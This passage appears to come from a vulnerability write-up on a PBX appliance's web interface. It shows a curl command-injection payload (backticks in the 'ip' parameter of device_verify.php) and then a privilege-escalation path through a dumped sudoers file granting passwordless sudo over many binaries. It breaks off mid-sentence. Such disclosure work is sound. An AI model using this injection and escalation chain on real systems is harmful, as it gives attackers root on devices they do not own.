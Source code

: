 ```console

$ curl 'http://192.168.0.19/devices/device_verify.php?action=xx&ip=`id>/tmp/PWNED`'

```

#### privilege escalation

The webserver is running via user wms. so to gain root privilages some extra work is needed 
looking at the `/etc/sudoers` file 

```
root    ALL=(ALL) ALL

# Uncomment to allow members of group sudo to not need a password
# (Note that later entries override this, so you might need to move
# it further down)
# %sudo ALL=NOPASSWD: ALL

Defaults        lecture=never,!syslog

Cmnd_Alias WMS_PBX=/usr/sbin/check_io_usb.sh, /usr/bin/mutt, /etc/init.d/lighttpd, /usr/sbin/monit, /etc/init.d/fastcgi, /usr/sbin/dhcpd, /etc/dhcp.conf, /var/lib/dhcpd, /etc/init.d/ntpdate, /etc/monit/gendnsmonit, /bin/echo, /usr/bin/monit, /usr/sbin/wms_remote_support, /usr/sbin/wms_auth_sync, /usr/sbin/fix-dpkg.sh, /sbin/ifup, /sbin/ifdown, /etc/init.d/dnsmasq, /sbin/ifconfig, /sbin/route, /bin/date, /etc/cron.d, /usr/sbin/ntpdate-debian, /etc/init.d/ifplugd, /usr/sbin/ifplugd, /etc/default/ntpdate, /etc/init.d/ntp, /etc/init.d/sshd, /etc/init.d/ssh, /etc/init.d/callweaver, /usr/sbin/update-rc.d, /usr/bin/sox, /usr/sbin/callweaver, /bin/hostname, /usr/sbin/wmsreset, /usr/sbin/wms_backup_create, /usr/sbin/wms_applybackup, /bin/cat, /etc/init.d/networking, /bin/mount, /bin/umount, /sbin/start-stop-daemon, /usr/bin/apt-get, /sbin/reboot, /usr/sbin/wms_upgrade, /bin/df, /bin/chmod, /bin/chown, /sbin/blkid, /sbin/mii-tool, /etc/init.d/monit, /etc/init.d/snmpd, /sbin/mkfs.ext2, /sbin/mkfs.ext3, /usr/bin/munpack, /etc/init.d/inetd, /usr/bin/resident, /sbin/iptables, /usr/bin/pkill, /bin/kill, /usr/sbin/tcpdump, /usr/bin/rsync, /usr/bin/ssh-keygen, /usr/bin/jail-apt, /usr/bin/custom-apt, /sbin/halt, /usr/sbin/dnsmasq, /etc/init.d/dnsmasq, /usr/sbin/wms_gs_encoder, /etc/init.d/slapd, /etc/init.d/wildix-con_server, /etc/init.d/wildix-con_client, /etc/init.d/vtun, /etc/init.d/openvpn, /bin/ping, /usr/sbin/dmidecode, /bin/ln, /bin/cp, /bin/rm, /bin/mkdir, /usr/sbin/usermod, /usr/bin/nmap, /usr/sbin/kamctl, /usr/sbin/wmsbind, /usr/sbin/ldap_reset, /etc/init.d/kamailio, /usr/sbin/restart_kamailio_with_delay, /sbin/sysctl, /usr/sbin/brctl, /sbin/vconfig, /usr/sbin/wshaper, /usr/sbin/ucarp, /bin/sync, /usr/sbin/gsm-rebooter, /etc/init.d/sms, /etc/init.d/transmitfax, /usr/sbin/syslog_grep, /usr/sbin/lighty-enable-mod, /usr/sbin/lighty-disable-mod, /usr/sbin/init_usb, /sbin/udevadm, /sbin/sfdisk, /etc/init.d/ejabberd, /usr/sbin/remount_fs,/var/www/upgrade/upgrade_stage2.php, /etc/init.d/radicale, /usr/bin/lua, /etc/init.d/freeradius, /etc/init.d/tproxyd, /bin/netstat, /etc/init.d/whoteld, /etc/init.d/rtpengine, /usr/bin/touch, /usr/bin/awk, /bin/sed, /etc/init.d/wudpecho, /etc/network/if-up.d/hosts, /usr/sbin/update_kamailio_cfg.sh, /usr/sbin/ejabberdctl, /usr/sbin/smartctl

User_Alias WMS_PBX=wms,admin,ejabberd

WMS_PBX ALL=(ALL) NOPASSWD: WMS_PBX

nagios ALL=(ALL) NOPASSWD: ALL


```
The user wms is allowd to user sudo without password to execute some executable files. some of there are intresting. The file `/var/www/upgrade/upgrade_stage2.php` is one of those files , and the permitions on this file are 
